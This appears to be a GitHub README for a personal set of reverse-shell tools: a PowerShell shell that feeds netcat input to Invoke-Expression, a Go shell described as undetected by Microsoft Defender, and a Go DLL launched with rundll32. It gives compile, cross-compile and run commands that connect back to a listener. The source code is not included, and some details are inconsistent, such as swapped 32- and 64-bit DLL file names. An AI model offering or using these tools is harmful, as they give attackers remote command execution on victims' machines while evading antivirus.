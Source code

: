 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1 -ip 127.0.0.1 -port 3333 </code>


# Golang

Golang reverse shell. Does runtime OS detection and selects propert shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>



# Golang DLL

Golang DLL reverse shell designed to be run with rundll32.exe. This currently has the IP and port hardcoded. Modify the IP and port in the source code.
To Compile:

Linux:
You will need to install the following packages on Ubuntu

<code>sudo apt install golang gcc build-essential gcc-mingw-w64-x86-64 gcc-mingw-w64-i68</code>

Cross compile on Linux for Windows:
32 bit DLL
<code>env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell64.dll revshell_dll.go</code>

64 bit DLL
<code>env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell32.dll revshell_dll.go</code>

To run, provide the IP address and port as command line arguments:

<code>rundll32.exe C:\revshell32.dll,Entry</code>
